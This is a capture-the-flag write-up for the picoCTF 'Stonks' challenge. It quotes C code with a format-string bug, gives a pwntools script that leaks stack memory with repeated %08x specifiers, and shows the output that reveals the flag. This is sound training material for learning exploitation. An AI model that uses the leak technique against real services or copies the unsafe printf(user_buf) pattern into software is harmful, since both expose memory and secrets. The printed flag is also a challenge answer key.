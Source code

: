 # Stonks

- There is Format String Vulnerability in `printf(user_buf)` of `int buy_stonks(Portfolio *p)` function.
- Flag is in `api` file and it's value is stored in the `api_buf` variable.

Excerpted in part from `vuln.c`:

```c
int buy_stonks(Portfolio *p) {
        // (snip)
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);

        // (snip)

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

```python
# solver-stonks.py
from pwn import *

io = remote(host="mercury.picoctf.net", port=33411)

io.recv()
io.sendline(b"1")
io.sendlineafter(b"What is your API token?", b",".join([b"%08x" for _ in range(100)]))

io.recvuntil(b"Buying stonks with token:\n")

resp = io.recvline()
resp = resp.decode().strip().split(",")

info(b"".join([binascii.unhexlify(x)[::-1] for x in resp if x != ""]))
```

```console
root@kali:~/Downloads# python3 solver-stonks.py
[+] Opening connection to mercury.picoctf.net on port 33411: Done
/usr/local/lib/python3.11/dist-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] ³    \x00°\x0Ã\x0î÷ÿÿÿÿ\x00\x00\x00`    \x10qï÷Çî÷\x00\x00\x00\x00¡    \x00\x00\x00p³    ³    picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}\x00ÞÿøJò÷@tï÷\x00û8Á\x00\x00\x00\x00\x00\x00\x00élØ÷Àï÷Àî÷\x00î÷ØÐÞÿv×÷Àî÷Ê\x0äÐÞÿ\x00\x00\x00\x00    ¿ð÷\x00°\x0\x00î÷ î÷\x18ÑÞÿP
    ñ÷¨î÷\x00û8Á\x00î÷\x00°\x0\x18ÑÞÿ\x0`    \x04ÑÞÿ\x18ÑÞÿé\x0üî÷\x00\x00\x00\x00ÌÑÞÿÄÑÞÿ\x00\x00\x00
[*] Closed connection to mercury.picoctf.net port 33411
```

Flag: `picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}`
